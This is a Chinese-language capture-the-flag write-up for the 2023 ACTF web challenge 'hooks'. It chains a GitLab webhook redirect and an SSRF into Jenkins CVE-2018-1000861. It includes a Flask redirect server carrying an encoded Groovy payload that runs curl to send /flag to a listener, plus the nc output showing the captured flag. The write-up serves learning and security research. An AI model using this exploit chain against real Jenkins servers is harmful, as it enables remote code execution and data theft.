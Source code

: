 # 2023-ACTF-Web-hooks

## writeup

题目nginx将流量转发到内网的flask，flask是一个ssrf且只能get请求。内网的Jenkins版本存在CVE-2018-1000861可以执行rce，因此就是想办法ssrf打Jenkins。



nginx对转发的流量有一定要求：

```conf
        # gitlab
        allow 34.74.226.0/24;
        allow 34.74.90.0/24;
        # github
        allow 140.82.115.0/24;
```

需要利用的是gitlab或者github的webhooks，但是要求是get请求。

从 GitLab 发送的 webhook 以 302 响应代码响应时，GitLab 会自动遵循重定向。由于 302 重定向之后是 GET 请求，因此使用Gitlab经过一层302就可以变成get请求。

因此构造（直接下来都是本地测试，因此ip都是本地ip）：

```python
from flask import Flask, request, redirect

app = Flask(__name__)

@app.route('/redirect', methods=['POST'])
def redi():
    return redirect('http://10.207.127.144:32810/?redirect_url=http%3A%2F%2Fjenkins%3A8080%2FsecurityRealm%2Fuser%2Fadmin%2FdescriptorByName%2Forg.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript%2FcheckScript%3Fsandbox%3Dtrue%26value%3Dpublic%20class%20x%20%7Bpublic%20x()%7B%22curl%20-X%20POST%20-d%20%40%2Fflag%20http%3A%2F%2F10.207.127.144:39475/%22.execute()%7D%7D',code=302)

if __name__ == '__main__':
    app.run(debug=True,host="0.0.0.0",port=31801)

```

触发webhook：

![image-20231123202704053](README.assets/image-20231123202704053.png)

收到flag：

```bash
nc -ln 39475
POST / HTTP/1.1
Host: 10.207.127.144:39475
User-Agent: curl/7.52.1
Accept: */*
Content-Length: 55
Content-Type: application/x-www-form-urlencoded

ACTF{cicd_MX0XKe_security_8o5Agr_is_bsreH3_interesting}
```



## 参考

https://www.cidersecurity.io/blog/research/how-we-abused-repository-webhooks-to-access-internal-ci-systems-at-scale/

